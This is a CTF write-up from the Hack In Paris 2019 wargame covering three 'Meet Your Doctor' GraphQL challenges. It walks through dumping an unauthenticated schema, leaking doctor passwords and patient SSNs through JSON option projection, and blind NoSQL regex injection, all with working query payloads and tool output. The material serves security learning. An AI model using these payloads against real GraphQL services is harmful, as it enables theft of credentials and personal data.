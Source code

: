 ```yaml
---
layout: post
title: HIP19 Writeup - Meet Your Doctor 1,2,3
---
```


Last wednesday I was in the Hack In Paris event for the 3rd time. As always there were some great conferences and challenges, and a new competition called "Hacker Jeopardy" which was very fun! During the Wargame I focused my time on Web challenges based on the `graphql` technology which was new to me, you will find below my writeups for the `Meet Your Doctor` challenges. 

![HIP Wargame 2019]({{ site.baseurl }}/images/hip19_wargame.png "HIP Wargame 2019"){: .center-image }


## Meet your doctor 1 - 100 pts

URL: `http://meetyourdoctor1.challs.malice.fr`   
Goal : `Please help me find the Meet your doctor Admin password`   

Gobuster revealed a `/graphql` endpoint at the root of the website, browsing [http://meetyourdoctor1.challs.malice.fr/graphql](http://meetyourdoctor1.challs.malice.fr/graphql) gave us an access to an interactive GraphQL interpreter. On this page we can browse the documentation and `schema`. 

There, we can get the structure of the `Doctor` type.

{% highlight sql %}
type Doctor {
  id: ID!
  firstName: String!
  lastName: String!
  specialty: String!
  patients: [Patient!]
  rendezvous: [Rendezvous!]
  email: String!
  password: String!
}
{% endhighlight %}

It seems we don't need to authenticate with the mutation `signIn` to query `Doctor` data.

{% highlight sql %}
type Mutation {
  signIn(login: String!, password: String!): Token!
}
{% endhighlight %}

A simple query `{Doctors{id email password}}` was enough to extract all doctors' email and password. The flag was the password of the Admin doctor : `Now-_Let$|GetSeri0us`

![GraphQL UI]({{ site.baseurl }}/images/doctors1graphql.png "GraphQL UI")


## Meet your doctor 2 - 200 pts

URL: `http://meetyourdoctor2.challs.malice.fr`    
Goal: `I need to find the Patient 0 social security number! It is a matter of life and death`

In this challenge we didn't have access to an online "lab" to test and query the GraphQL. I made a tool to interact with the `/graphql` endpoint, it is open-source and available for free on [Github: https://github.com/swisskyrepo/GraphQLmap](https://github.com/swisskyrepo/GraphQLmap).

Using `Introspection` we can still get the GraphQL schema, here is the URL-encoded version (Full version available at "[GraphQL Injection: enumerate-database-schema-via-introspection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#enumerate-database-schema-via-introspection)").

{% highlight sql %}
fragment+FullType+on+__Type+{++kind++name++description++fields(includeDeprecated%3a+true)+{++++name++++description++++args+{++++++...InputValue++++}++++type+{++++++...TypeRef++++}++++isDeprecated++++deprecationReason++}++inputFields+{++++...InputValue++}++interfaces+{++++...TypeRef++}++enumValues(includeDeprecated%3a+true)+{++++name++++description++++isDeprecated++++deprecationReason++}++possibleTypes+{++++...TypeRef++}}fragment+InputValue+on+__InputValue+{++name++description++type+{++++...TypeRef++}++defaultValue}fragment+TypeRef+on+__Type+{++kind++name++ofType+{++++kind++++name++++ofType+{++++++kind++++++name++++++ofType+{++++++++kind++++++++name++++++++ofType+{++++++++++kind++++++++++name++++++++++ofType+{++++++++++++kind++++++++++++name++++++++++++ofType+{++++++++++++++kind++++++++++++++name++++++++++++++ofType+{++++++++++++++++kind++++++++++++++++name++++++++++++++}++++++++++++}++++++++++}++++++++}++++++}++++}++}}query+IntrospectionQuery+{++__schema+{++++queryType+{++++++name++++}++++mutationType+{++++++name++++}++++types+{++++++...FullType++++}++++directives+{++++++name++++++description++++++locations++++++args+{++++++++...InputValue++++++}++++}++}}
{% endhighlight %}

It is strongly recommended to use `Firefox` to view the server response as it parses JSON an displays it nicely.

![Doctors schema]({{ site.baseurl }}/images/doctors2_schema.png "Doctors schema")

Using GraphQLmap, we got the following structure.

{% highlight sql %}
============= [SCHEMA] ===============
e.g: name[Type]: arg (Type!)

Query
        doctor[]: email (String!), 
        doctors[Doctor]: options (JSON!), 
        patients[Patient]: 
        patient[]: id (ID!), 
        allrendezvous[Rendezvous]: 
        rendezvous[]: id (ID!), 
Doctor
        id[ID]: 
        firstName[String]: 
        lastName[String]: 
        specialty[String]: 
        patients[None]: 
        rendezvous[None]: 
        email[String]: 
        password[String]: 
Patient
        id[ID]: 
        firstName[String]: 
        lastName[String]: 
        doctor[Doctor]: 
        ssn[String]: 
Rendezvous
        id[ID]: 
        date[String]: 
        confirmed[Boolean]: 
Mutation
        signIn[Token]: login (String!), password (String!), 
Token
        token[String]: 
{% endhighlight %}

In this case `Doctors` have an `options` parameter which accepts JSON. It allows us to specify items linked to the doctors' structure and project their data into the GraphQL response. I saw the following picture in a blog post, it helped me a lot to understand the structure of the query.

![GraphMap]({{ site.baseurl }}/images/graphmap.png "GraphMap")

We can query `{doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}`, don't forget to escape the `"` inside the `options`.

{% highlight json %}
GraphQLmap> {doctors(options: "{\"patients.ssn\" :1}"){firstName lastName id patients{ssn}}}
{
    "firstName": "Admin",
    "id": "5d089b25f48c29003191e3b5",
    "lastName": "Admin",
    "patients": [
        {
            "ssn": "b16cff8b-4a5a-41c8-8545-d9880fd7aae5"
        }
    ]
} 
{% endhighlight %}

There we go, the second flag was `b16cff8b-4a5a-41c8-8545-d9880fd7aae5`.     
An asciinema version is available at [https://asciinema.org/a/sbqGXnWXl5Y6YeQr0wzsCzQli](https://asciinema.org/a/sbqGXnWXl5Y6YeQr0wzsCzQli)


## Meet your doctor 3 - 300 pts

URL: `http://meetyourdoctor3.challs.malice.fr`
Goal: `I need to find the Patient 0 social security number! It is a matter of life and death`

Things are getting complicated, we can dump the schema as the `Introspection` is set to false. Based on the previous challenge we can guess the structure is the same. Unfortunately we can't reuse the same query to extract the `ssn`, we get the following error.

{% highlight bash %}
Field "doctors" argument "search" of type "JSON!" is required, but it was not provided.
{% endhighlight %}

This means there is a `search` argument in the doctor structure, something like `doctors[Doctor]: options (JSON!), search(JSON!)`. Pete Correy explains how to exploit the search argument in his blog post [GraphQL NoSQL Injection Through JSON Types](http://www.petecorey.com/blog/2017/06/12/graphql-nosql-injection-through-json-types/).

Let's try a simple NoSQL injection with fields we know such as `lastName`.

{% highlight json %}
OK: {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi\"} }"){firstName lastName id}}
KO: {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admia\"} }"){firstName lastName id}}
{% endhighlight %}

Since the challenge I added a way to test the regex quickly in GraphQLmap using the `GRAPHQL_CHARSET` keyword inside a GraphQL query:

{% highlight json %}
GraphQLmap > {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"AdmiGRAPHQL_CHARSET\"} }"){firstName lastName id}}     
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi$\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi(\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi)\"} }"){firstName lastName id}}   
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi*\"} }"){firstName lastName id}}    
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi0\"} }"){firstName lastName id}}   
[+] Query: (45) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admi1\"} }"){firstName lastName id}}    
[+] Query: (206) {doctors(options: 1, search: "{ \"lastName\": { \"$regex\": \"Admin\"} }"){firstName lastName id}}
{% endhighlight %}

The injection worked, now we can re-use the payload from the challenge #2 and extract the `social security number` of the patient 0, which is the patient of the `Admin` doctor. The query was as follows, where we had to replace `CHARACTER_FROM_THE_FLAG` to test characters from the flag.

{% highlight json %}
{
  doctors(
    options: "{\"limit\": 1, \"patients.ssn\" :1}", 
    search: "{ \"patients.ssn\": { \"$regex\": \"^CHARACTER_FROM_THE_FLAG\"}, \"lastName\":\"Admin\" }")
    {
      firstName lastName id patients{ssn}
    }
}
{% endhighlight %}

Obviously we scripted the data extraction in Python, the script below will get the last flag : `4f537c0a-7da6-4acc-81e1-8c33c02ef3b`.

![NOSQL]({{ site.baseurl }}/images/doctors3_nosql.png "NOSQL")

At that time we were checking if the content of `r.json()['data']['doctors']` was not empty, in order to abstract the data extraction we now take a check input from the user in order to compare the output.


{% highlight json %}
GraphQLmap > nosqli
Query > {doctors(options: "{\"\"patients.ssn\":1}", search: "{ \"patients.ssn\": { \"$regex\": \"^BLIND_PLACEHOLDER\"}, \"lastName\":\"Admin\" , \"firstName\":\"Admin\" }"){id, firstName}}
Check > 5d089c51dcab2d0032fdd08d
[+] Data found: 4f537c0a-7da6-4acc-81e1-8c33c02ef3b
{% endhighlight %}

I hope you enjoyed the challenges as I did !     
Feel free to share the blog post ! :)
